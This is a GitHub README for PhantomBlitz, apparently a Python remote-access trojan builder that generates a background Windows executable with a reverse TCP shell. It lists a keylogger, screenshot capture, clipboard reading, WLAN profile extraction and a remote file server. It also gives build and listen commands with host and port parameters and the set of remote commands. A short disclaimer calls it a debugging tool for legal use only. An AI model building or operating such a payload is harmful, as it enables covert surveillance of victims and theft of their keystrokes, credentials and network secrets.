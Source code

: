  # PhantomBlitz
![image](https://user-images.githubusercontent.com/111997815/235445673-e72f087d-ce6f-4737-a1eb-f36e1fcf4aad.png)

**PhantomBlitz is a Python-based framework that creates an executable file with various parameters. It allows users to perform a reverse TCP connection and execute cmd commands.**
> **IMPORTANT**:```PLEASE USE WINDOWS FOR PAYLOAD FILE GENERATION ⚠ DETECTABLE BY AV AND WINDOWS```
![VIRUS-TOTAL-SCREENSHOT](https://github.com/devsdenepal/PhantomBlitz/blob/main/341264188_211432421592581_4782327762530171716_n.png?raw=true)
## Features

- [x] Reverse TCP connection
- [x] Execute cmd commands
- [x] Collect OS info
- [x] Set clipboard text
- [x] Get clipboard text
- [x] Take screenshot
- [x] Start file server
- [x] Analyze LAN traffic
- [x] Type text
- [x] Download URL
- [x] Open link
- [x] Generate WLAN profile
- [x] Keylogger
## Requirements
> Same platform as the client
## Usage

PhantomBlazer can be executed with the following parameters:
``` 
    --mode/-m: Mode: accepts > build or listen
    --lhost/-lh: The local host IP address
    --lport/-lp: The local port number
    --output/-o: The output file name
```
> Example: ``` python3 phantomblazer.py -m build --lh <ip.address> --lp <port> --output<application.name>.exe```
> Before payload execution on client: ``` python3 phantomblazer.py -m listen --lh <ip.address> -lp <port> ```

### Inbuilt ommands can be executed using the following syntax:
```
    collect-os-info
    set clipboard <text>
    get clipboard
    take screenshot
    start file server
    analyze lan traffic
    type <text>
    download <url>
    open link <link>
    generate wlan profile *
    generate wlan profile <name>
    start keylogging
```
> To view captured use ```start file server``` for remote file service , the server will be on the client's address
## DISCLAIMER:
This tool is intended for legal and ethical use only. The creator of this tool is not responsible for any illegal or unethical use of this tool.

The tool creates a .exe file which runs as a background and creates a reverse TCP connection, allowing for remote command execution. This tool is intended for debugging purposes and should not be used to gain unauthorized access to systems.

Please use this tool at your own risk and with the appropriate permissions from the system owners. Any actions taken with this tool are the sole responsibility of the user.

By using this tool, you agree to the <a href = "https://github.com/devsdenepal/PhantomBlitz/blob/main/terms-and-conditions.md">```terms and conditions```</a> outlined above and acknowledge that any misuse of this tool is strictly prohibited.
